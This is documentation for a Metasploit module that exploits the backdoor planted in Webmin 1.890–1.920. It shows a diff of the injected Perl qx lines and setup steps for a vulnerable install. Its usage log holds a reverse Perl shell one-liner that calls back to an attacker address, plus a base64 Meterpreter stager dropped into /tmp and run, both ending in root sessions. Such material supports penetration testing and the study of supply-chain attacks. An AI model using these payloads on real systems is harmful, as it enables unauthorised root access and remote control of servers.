 ## Introduction

This module exploits a backdoor in Webmin versions 1.890 through 1.920.
Only the SourceForge downloads were backdoored, but they are listed as
official downloads on the project's site.

Unknown attacker(s) inserted Perl `qx` statements into the build server's
source code on two separate occasions: once in April 2018, introducing
the backdoor in the 1.890 release, and in July 2018, reintroducing the
backdoor in releases 1.900 through 1.920.

Only version 1.890 is exploitable in the default install. Later affected
versions require the expired password changing feature to be enabled.

## Analysis

The backdoored code can compared across space and time with `diff3(1)`.

```
wvu@kharak:~/Downloads$ diff3 webmin-1.{890,930,920}/password_change.cgi
====2
1:1c
3:1c
  #!/usr/bin/perl
2:1c
  #!/usr/local/bin/perl
====1
1:12c
  $in{'expired'} eq '' || die $text{'password_expired'},qx/$in{'expired'}/;
2:12c
3:12c
  $miniserv{'passwd_mode'} == 2 || die "Password changing is not enabled!";
====3
1:40c
2:40c
  	$enc eq $wuser->{'pass'} || &pass_error($text{'password_eold'});
3:40c
  	$enc eq $wuser->{'pass'} || &pass_error($text{'password_eold'},qx/$in{'old'}/);
====3
1:200c
2:200c
  # Show ok page
3:200c

wvu@kharak:~/Downloads$
```

## Setup

1. `wget https://prdownloads.sourceforge.net/webadmin/webmin-1.890.tar.gz`
2. `tar xf webmin-1.890.tar.gz`
3. `cd webmin-1.890`
4. `./setup.sh`

## Targets

```
Id  Name
--  ----
0   Automatic (Unix In-Memory)
1   Automatic (Linux Dropper)
```

## Options

**RPORT**

Set this to the Webmin port. The default is 10000.

**TARGETURI**

Set this to the Webmin base path. The default is `/`.

**ForceExploit**

Set this to `true` to override the `check` result during exploitation.

## Usage

```
msf5 exploit(linux/http/webmin_backdoor) > run

[*] Started reverse TCP handler on 172.28.128.1:4444
[*] Webmin 1.890 detected
[+] Webmin 1.890 is a supported target
[+] Webmin executed a benign check command
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Generated command payload: perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"172.28.128.1:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
[*] Command shell session 1 opened (172.28.128.1:4444 -> 172.28.128.5:58374) at 2019-08-21 16:49:24 -0500

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux ubuntu-xenial 4.4.0-141-generic #167-Ubuntu SMP Wed Dec 5 10:40:15 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
^Z
Background session 1? [y/N]  y
msf5 exploit(linux/http/webmin_backdoor) > set target 1
target => 1
msf5 exploit(linux/http/webmin_backdoor) > run

[*] Started reverse TCP handler on 172.28.128.1:4444
[*] Webmin 1.890 detected
[+] Webmin 1.890 is a supported target
[+] Webmin executed a benign check command
[*] Configuring Automatic (Linux Dropper) target
[*] Sending linux/x64/meterpreter/reverse_tcp command stager
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+QAAAAAAAAB6AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UmoKQVlWUGopWJlqAl9qAV4PBUiFwHg7SJdIuQIAEVysHIABUUiJ5moQWmoqWA8FWUiFwHklSf/JdBhXaiNYagBqBUiJ50gx9g8FWVlfSIXAecdqPFhqAV8PBV5aDwVIhcB47//m>>'/tmp/FgFBP.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/tDGmH' < '/tmp/FgFBP.b64' ; chmod +x '/tmp/tDGmH' ; '/tmp/tDGmH' ; rm -f '/tmp/tDGmH' ; rm -f '/tmp/FgFBP.b64'"]
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3021284 bytes) to 172.28.128.5
[*] Meterpreter session 2 opened (172.28.128.1:4444 -> 172.28.128.5:58376) at 2019-08-21 16:49:33 -0500
[*] Command Stager progress - 100.00% done (819/819 bytes)

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 10.0.2.15
OS           : Ubuntu 16.04 (Linux 4.4.0-141-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
